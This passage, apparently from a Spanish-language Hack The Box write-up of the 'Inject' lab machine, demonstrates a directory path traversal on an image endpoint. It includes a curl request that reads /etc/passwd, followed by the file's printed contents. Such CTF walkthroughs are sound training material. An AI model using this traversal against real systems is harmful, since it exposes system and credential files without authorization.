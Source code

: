 Observamos que no ha funcionado como se esperaba. Esto podría deberse a que se está buscando el directorio "/etc" dentro del directorio actual, el cual podría no existir.

En vista de esto, procederemos a probar una técnica básica de inyección conocida como "Directory Path Traversal", la cual nos permitiría retroceder varios directorios hasta llegar a la raíz del sistema y luego agregar "/etc/passwd". Cabe mencionar que el archivo "/etc/passwd" debería existir si se logra realizar el Directory Path Traversal con éxito.


![](https://github.com/ElSwix/HTB-WriteUPS/blob/main/ES/Machines/Easy/Inject/img/9.png?raw=true)
Hemos logrado realizar un "Directory Path Traversal" exitosamente, y parece ser que el archivo existe. Sin embargo, debido a las limitaciones de mostrar solo imágenes, no se nos muestra el contenido del archivo en cuestión.

No obstante, no todo está perdido. Podemos intentar hacer la misma solicitud utilizando la herramienta `curl` a través de la consola:

```
elswix@parrot > curl -s 'http://10.129.35.222:8080/show_image?img=../../../../../../../../../../etc/passwd'

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
```